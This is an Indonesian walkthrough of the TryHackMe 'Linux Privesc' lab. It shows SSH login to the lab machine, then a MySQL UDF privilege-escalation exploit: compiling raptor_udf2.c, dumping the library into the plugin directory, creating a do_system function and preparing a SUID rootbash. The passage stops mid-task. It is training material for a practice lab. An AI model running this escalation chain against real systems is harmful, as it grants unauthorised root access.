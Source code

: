 room [Linux Privesc](https://tryhackme.com/room/linuxprivesc)
# Task 1 : Deploy VM

Deploy target. lalu connect ke target menggunakan ssh

```shell
ssh user@IP -o HostKeyAlgorithms=+ssh-rsa
```

selanjutnya lakukan command `id`, dan kita mendapat jawaban dari task 1

```shell
id
# uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

# Task 2 : Service Exploits

dalam task kedua ini, akan dipelajari service exploit, pada service MySql dalam hal ini. Jika kita cek dengan

```shell
ps aux
```

kita akan menemukan bahwa MySql berjalan sebagai root, dan juga root user dalam service ini tidak memiliki password. Kita dapat menggunakan exploit dari [exploit-db](https://www.exploit-db.com/exploits/1518) yang mengambil keuntungan dari UDFs (User Defined Functions) untuk menjalankan sistem sebagai root lwat MySql service.

1. ganti dir ke `/home/user/tools/mysql-udf`
2. compile `raptor_udf2.c` exploit dengan cara

```shell
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

3. connect ke MySql service sebagai root user dengan blank password dengan cara

```shell
mysql -u root
```

4. selanjutnya execute command berikut ketika sudah masuk di MySql service

```shell
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

5. selanjutnya copy `/bin/bash` ke /tmp/rootbash dan set SUID permission
